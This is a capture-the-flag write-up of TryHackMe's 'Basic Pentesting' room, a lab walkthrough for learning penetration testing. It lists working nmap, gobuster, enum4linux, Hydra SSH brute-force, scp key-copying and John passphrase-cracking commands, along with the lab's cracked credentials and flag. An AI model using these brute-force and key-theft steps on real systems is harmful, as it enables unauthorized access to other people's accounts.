







# Basic Pentesting — TryHackMe Writeup

**Platform:** TryHackMe  
**Room:** Basic Pentesting  
**Difficulty:** Easy  
**Date:** May 31, 2026  
**Author:** Shrood

---

## Overview

A beginner-friendly Linux box covering service enumeration, web directory discovery, SMB user enumeration, SSH brute forcing, and lateral movement via SSH key theft. The path to completion involved hitting dead ends and pivoting — which is what real pentesting looks like.

---

## Reconnaissance

### Port Scan

Started with a stealth SYN scan to find open ports, then followed up with a version scan.

```bash
nmap -sS <target_ip>
nmap -sV -p 22,90,139,445,8009,8080 <target_ip>
```



**Services found:**

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 8.2p1 Ubuntu |
| 139/445 | SMB | Samba smbd 4.6.2 |
| 8009 | AJP13 | Apache Jserv Protocol v1.3 |
| 8080 | HTTP | Apache Tomcat 9.0.7 |

**Mindset:** With multiple services exposed, I prioritized by exploitability. Tomcat 9.0.7 + AJP13 suggested Ghostcat (CVE-2020-1938). Samba 4.6.2 suggested SambaCry (CVE-2017-7494). I attempted both before moving on — neither worked in this environment — so I shifted to web enumeration and credential attacks.

---

## Web Enumeration

### Directory Brute Force

```bash
gobuster dir -u http://<target_ip> -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```


**Key finding:** `/development` (Status: 301) — redirected to a directory containing `dev.txt`.

### Reading dev.txt

Navigated to `http://<target_ip>/development/dev.txt` in the browser.



```
2018-04-23: I've been messing with that struts stuff... using version 2.5.12. -K
2018-04-22: SMB has been configured. -K
2018-04-21: I got Apache set up. -J
```

**Mindset:** The initials `-K` and `-J` are hints at usernames. The SMB note is a deliberate breadcrumb pointing toward SMB enumeration to confirm those usernames. Version 2.5.12 also flags Apache Struts as a potential attack vector.

---

## User Enumeration via SMB

Rather than blindly brute forcing with a 10-million username list (which I tried first — painfully slow), I used `enum4linux` to pull users directly from SMB.

```bash
enum4linux -a <target_ip>
```



**Users found:**
- `kay` → maps to `-K` in dev.txt
- `jan` → maps to `-J` in dev.txt
- `ubuntu`

**Mindset:** This is why recon beats brute force. Instead of guessing usernames for hours, SMB gave them away for free. Once I had `jan`, I could target the brute force.

---

## SSH Brute Force — Getting In as Jan

With a confirmed username, I ran Hydra against SSH. I first tried a smaller wordlist (`fasttrack.txt`) for speed, but the password wasn't in it — so I let `rockyou.txt` run in the background.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://<target_ip> -t 4
```


**Result:** `jan : armando`

```bash
ssh jan@<target_ip>
```



---

## Privilege Escalation — Pivoting to Kay

Once inside as `jan`, I explored the filesystem. `jan` had no sudo rights, so I moved to `/home` to check other users.

```bash
cd /home
ls
cd kay
ls -la
```



**What I found in `/home/kay/`:**
- `pass.bak` — permission denied as jan
- `.ssh/id_rsa` — readable

**Mindset:** `pass.bak` being root-owned but sitting in kay's home directory is a strong hint it's the final flag. The `id_rsa` is the path in — if I can get kay's private key and crack the passphrase, I'm in as kay.

### Extracting the Private Key

From my attack machine, I used `scp` to pull the key:

```bash
scp jan@<target_ip>:/home/kay/.ssh/id_rsa .
chmod 600 id_rsa
```

### Cracking the Passphrase

The key was passphrase-protected. I converted it to a crackable hash and ran it through John:

```bash
/opt/john/ssh2john.py id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



**Passphrase:** `beeswax`

### SSH in as Kay

```bash
ssh -i id_rsa kay@<target_ip>
# Enter passphrase: beeswax
```



```bash
cat pass.bak
```

**Result:** `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## Summary

| Step | Tool | Finding |
|------|------|---------|
| Port scan | nmap | SSH, SMB, Tomcat, AJP13 |
| Web enum | gobuster | `/development/dev.txt` |
| User enum | enum4linux | `jan`, `kay` |
| SSH brute force | hydra | `jan:armando` |
| Key theft | scp | `kay`'s `id_rsa` |
| Passphrase crack | john | `beeswax` |
| Final flag | cat | `heresareallystrongpasswordthatfollowsthepasswordpolicy$$` |

---

## Lessons Learned

- **Enumerate before you brute force.** Running Hydra with a 10M username list was a dead end. `enum4linux` gave me the usernames in seconds.
- **Try multiple attack vectors.** SMB and Tomcat exploits didn't land — but that's expected. Real engagements involve a lot of pivoting before something sticks.
- **Hidden files matter.** `ls -la` revealed `.ssh` when `ls` alone would've missed it.
- **Weak passphrases on private keys are a critical misconfig.** Even if the key is locked, `rockyou.txt` will crack a weak passphrase in seconds.

---

*Written as part of ongoing TryHackMe practice. Tools used: nmap, gobuster, enum4linux, hydra, john, scp.*
